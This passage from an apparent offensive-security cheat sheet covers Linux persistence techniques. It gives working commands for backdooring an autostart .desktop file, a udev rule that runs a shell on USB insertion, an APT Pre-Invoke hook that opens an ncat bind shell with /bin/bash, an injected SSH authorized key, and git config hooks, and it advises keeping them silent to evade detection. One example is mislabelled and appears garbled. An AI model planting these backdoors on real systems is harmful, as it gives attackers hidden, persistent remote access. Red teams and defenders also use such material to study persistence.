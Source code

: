 
## Backdooring a user startup file

Linux, write a file in  `~/.config/autostart/NAME_OF_FILE.desktop`

```powershell
In : ~/.config/autostart/*.desktop

[Desktop Entry]
Type=Application
Name=Welcome
Exec=/var/lib/gnome-welcome-tour
AutostartCondition=unless-exists ~/.cache/gnome-getting-started-docs/seen-getting-started-guide
OnlyShowIn=GNOME;
X-GNOME-Autostart-enabled=false
```

## Backdooring a driver

```bash
echo "ACTION==\"add\",ENV{DEVTYPE}==\"usb_device\",SUBSYSTEM==\"usb\",RUN+=\"$RSHELL\"" | tee /etc/udev/rules.d/71-vbox-kernel-drivers.rules > /dev/null
```

## Backdooring the APT

If you can create a file on the apt.conf.d directory with: `APT::Update::Pre-Invoke {"CMD"};`
Next time "apt-get update" is done, your CMD will be executed!

```bash
echo 'APT::Update::Pre-Invoke {"nohup ncat -lvp 1234 -e /bin/bash 2> /dev/null &"};' > /etc/apt/apt.conf.d/42backdoor
```

## Backdooring the SSH

Add an ssh key into the `~/.ssh` folder.

1. `ssh-keygen`
2. write the content of `~/.ssh/id_rsa.pub` into `~/.ssh/authorized_keys`
3. set the right permission, 700 for ~/.ssh and 600 for authorized_keys

## Backdooring Git

Backdooring git can be a useful way to obtain persistence without the need for root access.  
Special care must be taken to ensure that the backdoor commands create no output, otherwise the persistence is trivial to notice.

### Git Configs

There are multiple [git config variables](https://git-scm.com/docs/git-config) that execute arbitrary commands when certain actions are taken.  
As an added bonus, git configs can be specified multiple ways leading to additional backdoor opportunities.  
Configs can be set at the user level (`~/.gitconfig`), at the repository level (`path/to/repo/.git/config`), and sometimes via environment variables.
